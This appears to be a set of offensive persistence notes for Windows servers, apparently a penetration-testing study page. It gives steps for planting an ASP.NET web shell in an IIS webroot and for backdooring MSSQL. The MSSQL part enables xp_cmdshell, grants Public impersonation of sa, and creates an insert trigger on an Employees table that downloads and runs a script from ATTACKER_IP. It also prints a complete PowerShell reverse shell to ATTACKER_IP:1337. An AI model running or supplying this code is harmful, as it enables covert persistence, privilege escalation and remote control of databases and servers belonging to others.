 
## Using Web Shells
- upload a web shell to the web directory
- It will have privileges of the configured user in IIS, which by default is `iis apppool\defaultapppool`
-  it has the special `SeImpersonatePrivilege`, providing an easy way to escalate
- ASP.NET webshel can be downloaded from here [WebShell](https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmdasp.aspx)

```
move shell.aspx C:\inetpub\wwwroot\
```

Now it is served on the website of target IP address.

## Using MSSQL as a Backdoor

- One of the ways is to abuse triggers in database
-  create a trigger for any INSERT into the `HRDB` database
- Before creating the trigger, we must first reconfigure a few things on the database. First, we need to enable the `xp_cmdshell` stored procedure
- `xp_cmdshell` is a stored procedure that is provided by default in any MSSQL installation and allows you to run commands directly in the system's console but comes disabled by default
- To enable `xp_cmdshell` , run following SQL queries in `MS SQL Server Management Studio`


```sql
-- Enable Advance options
sp_configure 'Show Advanced Options',1;
RECONFIGURE;
GO

-- Enable xp_cmdshell function
sp_configure 'xp_cmdshell',1;
RECONFIGURE;
GO


-- Ensure that any user can run xp_cmdshell
-- Grant everyone to imporsonate sysadmin `sa`
USE master

GRANT IMPERSONATE ON LOGIN::sa to [Public];

-- Create Trigger on the database insert query
-- It will run the command script from the downloaded evilscript.ps1
USE HRDB;

CREATE TRIGGER [sql_backdoor]
ON HRDB.dbo.Employees 
FOR INSERT AS

EXECUTE AS LOGIN = 'sa'
EXEC master..xp_cmdshell 'Powershell -c "IEX(New-Object net.webclient).downloadstring(''http://ATTACKER_IP:8000/evilscript.ps1'')"';
```

- Host `evilscript.ps1` somewhere
```powershell
$client = New-Object System.Net.Sockets.TCPClient("ATTACKER_IP",1337);

$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + "PS " + (pwd).Path + "> ";
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush()
};

$client.Close()
```